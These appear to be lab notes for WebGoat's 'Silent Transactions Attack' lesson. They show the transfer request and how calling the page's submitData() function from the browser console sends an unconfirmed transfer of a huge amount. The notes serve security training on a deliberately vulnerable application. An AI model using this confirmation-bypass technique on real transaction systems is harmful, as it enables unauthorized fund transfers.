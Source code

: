 ## Silent Transactions Attack

When intercepting HTTP you will notice that GET request is made with all parameters shown eg.

```
GET /WebGoat/attack?Screen=144&menu=400&from=ajax&newAccount=test&amount=123&confirm=Transferring
```

To submit data silently, using Chrome 'Inspect element' and click 'Console' tab and issue `javascript:` and you should see one of the autocompleted commands is `javascript:submitData()`. If you enter it, below is the result

```javascript
javascript:submitData
submitData(accountNo, balance) {
var url = 'attack?Screen=144&menu=400&from=ajax&newAccount='+ accountNo+ '&amount=' + balance +'&confirm=' + document.getElementById('confirm').value; 
```

We can observe from this function `submitData()` requires 2 parameters which seems like what is the account number and balance amount to transfer. Issue the following command in console.

```javascript
javascript:submitData(123,999999999999999)
```